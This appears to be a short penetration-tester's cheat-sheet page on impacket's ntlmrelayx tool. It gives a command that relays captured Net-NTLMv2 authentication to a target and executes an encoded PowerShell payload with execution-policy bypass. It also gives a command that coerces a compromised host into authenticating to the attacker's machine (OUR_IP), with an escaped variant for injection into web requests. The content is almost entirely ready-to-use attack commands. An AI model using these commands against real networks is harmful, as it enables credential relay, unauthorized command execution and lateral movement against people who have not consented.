 ```yaml
---
tags:
---
```

# ntlmrelayx

For every connection received, this module will try to relay that connection to specified target(s) system or the original client

## Capabilities

```bash
# Relay an incomming Net-NTLMv2 hash to the target and execute the command
impacket-ntlmrelayx --no-http-server -smb2support -t $IP -c 'powershell -nop -noni -ep bypass -e JABjA...'
```

We can send a request to our attack box from our target inside a reverse shell via the following

```powershell
dir \\OUR_IP\a
```

**Note:** Make sure to include escape characters when injecting in a web request

```
\\\\OUR_IP\a
```